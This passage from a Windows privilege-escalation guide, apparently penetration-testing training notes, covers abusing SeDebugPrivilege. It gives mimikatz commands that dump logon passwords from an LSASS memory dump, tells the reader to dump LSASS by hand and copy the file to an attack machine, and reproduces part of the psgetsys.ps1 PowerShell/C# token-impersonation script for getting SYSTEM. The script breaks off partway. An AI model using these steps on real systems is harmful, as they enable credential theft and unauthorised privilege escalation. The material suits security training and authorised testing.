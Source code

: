 Exploiting it from the target host (if we can load tools such as mimikatz):

```cmd-session
mimikatz.exe

# Using 'mimikatz.log' for logfile : OK
mimikatz # log

# Switch to MINIDUMP : 'lsass.dmp'
mimikatz # sekurlsa::minidump lsass.dmp

# Opening : 'lsass.dmp' file for minidump...
mimikatz # sekurlsa::logonpasswords
```

Exploiting it without the capability of loading tools: take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`.  Download this file back to our attack machine.

### Remote Code Execution as SYSTEM #1

The attack in a nugshell: target a parent process running as SYSTEM, launch a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and use the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of that parent process and impersonate it.


For that we will use this script [psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1): [Source](https://github.com/decoder-it/psgetsystem)

```powershell
#Simple powershell/C# to spawn a process under a different parent process 
#usage: ipmo psgetsys.ps1;  ImpersonateFromParentPid -ppid <parent pid> -command <command to execute> -cmdargs <command arguments>
$mycode = @"
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;

public class MyProcess
{
    [DllImport("kernel32.dll")]
    static extern uint GetLastError();
    
	[DllImport("kernel32.dll")]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool CreateProcess(
        string lpApplicationName, string lpCommandLine, ref SECURITY_ATTRIBUTES lpProcessAttributes,
        ref SECURITY_ATTRIBUTES lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags,
        IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFOEX lpStartupInfo,
        out PROCESS_INFORMATION lpProcessInformation);

    [DllImport("kernel32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool UpdateProcThreadAttribute(
        IntPtr lpAttributeList, uint dwFlags, IntPtr Attribute, IntPtr lpValue,
        IntPtr cbSize, IntPtr lpPreviousValue, IntPtr lpReturnSize);

    [DllImport("kernel32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    private static extern bool InitializeProcThreadAttributeList(
        IntPtr lpAttributeList, int dwAttributeCount, int dwFlags, ref IntPtr lpSize);

    [DllImport("kernel32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
```